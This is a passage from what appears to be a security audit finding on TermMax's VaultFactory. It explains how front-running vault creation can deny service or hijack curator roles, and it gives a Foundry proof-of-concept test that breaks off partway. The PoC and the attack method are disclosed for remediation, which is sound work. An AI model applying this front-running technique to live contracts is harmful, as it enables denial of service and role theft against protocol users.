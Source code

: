 Two possibilities arise:
- Most likely, Alice's transaction failure results in the vault created by Bob never being used because Alice is aware Bob's vault is not identical to the one she wanted to create. In this case, an attacker can DoS the protocol by front-running every legitimate transaction for creating a vault.
- However, if Alice ignores the transaction failure and still goes ahead with using the vault at the predetermined address, Bob has successfully hijacked the curator and allocator roles of the vault and can perform all the privileged actions associated with this role.

## Impact Explanation
This attack is either a continuous DoS for `VaultFactory` or a trusted role hijack, depending on how the legitimate vault creator handles their transaction reverting.

## Likelihood Explanation
This attack can be performed by anyone whenever a new vault is deployed.

## Proof of Concept
Create file `./termmax-contracts/test/VaultDos.t.sol` and add the following test to it:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;
import {console, Test} from "forge-std/Test.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {TermMaxVault, ITermMaxVault} from "contracts/vault/TermMaxVault.sol";
import {OrderManager} from "contracts/vault/OrderManager.sol";
import {VaultInitialParams} from "contracts/storage/TermMaxStorage.sol";
import {VaultFactory} from "contracts/factory/VaultFactory.sol";

contract VaultDosTest is Test {
    address deployer = vm.randomAddress();
    address curator = vm.randomAddress();
    address alice = vm.randomAddress();
    address bob = vm.randomAddress();
    ITermMaxVault vault;
    VaultInitialParams initialParams;
    uint256 timelock = 86400;
    uint256 maxCapacity = 1000000e18;
    uint64 performanceFeeRate = 0.5e8;

    function testPoc_vaultDoS() public {
        OrderManager orderManager = new OrderManager();
        TermMaxVault implementation = new TermMaxVault(address(orderManager));
        VaultFactory vaultFactory = new VaultFactory(address(implementation));
        
        // set initial parameters
        initialParams = VaultInitialParams(
            deployer,
            curator,
            timelock,
            IERC20(address(1)),
            maxCapacity,
            "Vault-DAI",
            "Vault-DAI",
            performanceFeeRate
        );

        // vault with the first version of initial parameters is deployed successfully
        vm.prank(bob);
        vaultFactory.createVault(initialParams, 0);

        // update initial parameters
        initialParams.curator = address(12345);
```
